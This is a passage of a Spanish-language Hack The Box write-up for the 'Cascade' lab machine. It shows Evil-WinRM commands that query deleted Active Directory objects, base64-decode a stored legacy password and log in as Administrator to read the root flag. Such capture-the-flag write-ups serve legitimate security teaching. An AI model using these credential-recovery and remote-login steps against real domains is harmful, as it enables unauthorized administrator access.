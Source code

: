 ```bash
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -Filter {displayName -eq "TempAdmin"} -IncludeDeletedObjects -Properties * 

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0 
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin 
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz 
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059  
codePage                        : 0 

```

Al igual que el usuario `r.thompson` encontramos el campo `cascadeLegacyPwd` que nos indica la contraseña de este usuario y se encuentra en base64. Lo que hacemos es decodificarla usando el comando `base64`

```bash
┌──[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Cascade]
└──╼ $echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

Finalmente, nos conectamos otra vez vía evil-winrm como usuario `Administrator`con las credenciales del usuario `TempAdmin` y de esta manera, obtendremos la flag de root.

```bash
┌──[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Cascade]
└──╼ $sudo evil-winrm -i cascade.htb -u Administrator -p baCT3r1aN00dles 

Evil-WinRM shell v2.3                              
Info: Establishing connection to remote endpoint                                                                  
*Evil-WinRM* PS C:\Users\Administrator> whoami                       
cascade\administrator       
*Evil-WinRM* PS C:\Users\Administrator> type /Desktop/root.txt                     
b947f3...........................      
```